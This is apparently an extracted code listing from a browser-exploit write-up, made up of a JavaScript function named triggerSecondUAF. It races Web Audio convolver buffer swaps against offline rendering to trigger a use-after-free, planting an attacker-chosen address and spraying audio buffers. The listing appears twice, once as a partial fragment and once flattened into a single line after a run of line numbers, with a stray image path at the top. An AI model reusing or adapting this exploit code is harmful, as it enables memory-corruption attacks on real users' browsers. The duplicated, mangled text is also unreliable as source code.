        		setTimeout(doneCb, 200);
        		return;
    		} else {
        		finished = true;
 
        		setTimeout(function() {
             		triggerSecondUAF(addr, doneCb);
        		}, 1);
    		}
	});
 
	while (!finished) {
    		counter++;
 
    		convolver.buffer = null;
 
    		await later(1); // wait 1 millisecond
 
    		if (finished)
         		break;
 
    		for (let i = 0; i < iirFilters.length; i++) {
        		floatArray.fill(0);
          	   iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);
 
         		if (floatArray[0] != 3.1415927410125732) {
             			finished = true;
 
             	     		audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
                 		audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));
 
            			bufferSource.disconnect();
            			convolver.disconnect();
 
            			return;
        		}
    		}
 
    		convolver.buffer = smallAudioBuffer;
 
    		await later(1); // wait 1 millisecond
	}
}




123456789101112131415161718192021222324252627282930313233343536373839404142434445464748495051525354555657585960616263646566676869707172737475767778798081828384858687

let floatArray = new Float32Array(10);let audioBufferArray1 = [];let audioBufferArray2 = [];let imageDataArray = []; async function triggerSecondUAF(addr, doneCb) { let counter = 0; let numChannels = 1;  let audioCtx = new OfflineAudioContext(1, 0x100000, 48000);  let bufferSource = audioCtx.createBufferSource(); let convolver = audioCtx.createConvolver();  let bigAudioBuffer = audioCtx.createBuffer(numChannels, 0x100, 48000); let smallAudioBuffer = audioCtx.createBuffer(numChannels, 0x2, 48000);  smallAudioBuffer.getChannelData(0).fill(0);  for (let i = 0; i < numChannels; i++) {    		let channelDataArray = new BigUint64Array(bigAudioBuffer.getChannelData(i).buffer);    		channelDataArray[0] = addr; }  bufferSource.buffer = bigAudioBuffer; convolver.buffer = smallAudioBuffer;  bufferSource.loop = true; bufferSource.loopStart = 0; bufferSource.loopEnd = 1;  bufferSource.connect(convolver); convolver.connect(audioCtx.destination);  bufferSource.start();  let finished = false;      	audioCtx.startRendering().then(function(buffer) {     		buffer = null;     		if (finished) {        		audioCtx = null;         		setTimeout(doneCb, 200);        		return;    		} else {        		finished = true;         		setTimeout(function() {             		triggerSecondUAF(addr, doneCb);        		}, 1);    		} });  while (!finished) {    		counter++;     		convolver.buffer = null;     		await later(1); // wait 1 millisecond     		if (finished)         		break;     		for (let i = 0; i < iirFilters.length; i++) {        		floatArray.fill(0);          	   iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);          		if (floatArray[0] != 3.1415927410125732) {             			finished = true;              	     		audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));                 		audioBufferArray2.push(audioCtx.createBuffer(1, 1, 10000));             			bufferSource.disconnect();            			convolver.disconnect();             			return;        		}    		}     		convolver.buffer = smallAudioBuffer;     		await later(1); // wait 1 millisecond }}
